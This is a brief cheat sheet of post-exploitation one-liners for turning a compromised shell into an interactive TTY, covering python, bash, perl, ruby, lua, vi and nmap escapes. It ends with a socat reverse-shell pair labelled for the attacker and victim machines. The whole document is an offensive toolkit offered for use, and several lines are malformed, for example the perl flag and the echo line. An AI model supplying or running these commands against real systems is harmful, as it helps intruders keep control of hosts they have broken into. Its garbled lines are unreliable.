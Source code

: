
# Spawning a TTY Shell


check if the shell is tty   by typing  **tty**

## python

    python -c 'import pty; pty.spawn("/bin/sh")'

    python3 -c 'import pty; pty.spawn("/bin/sh")'

## echo

    echo os.system('/bin/bash')

## bash

    /bin/bash -i

## sh

    /bin/sh -i

## perl

    perl —e 'exec "/bin/sh";'

    perl: exec "/bin/sh";

## ruby

    ruby: exec "/bin/sh"

## lua

    lua: os.execute('/bin/sh')

## IRB

    exec "/bin/sh"

## vi

    :!bash

    :set shell=/bin/bash:shell

## nmap

    !sh

## socat

    on attacker machine : socat -,raw,echo=0 tcp-listen:<port> 
    on victim mahcine   : socat exec:"/bin/bash -li",pty,stderr,setsid,sigint,sane tcp:<ip>:<port>  

##

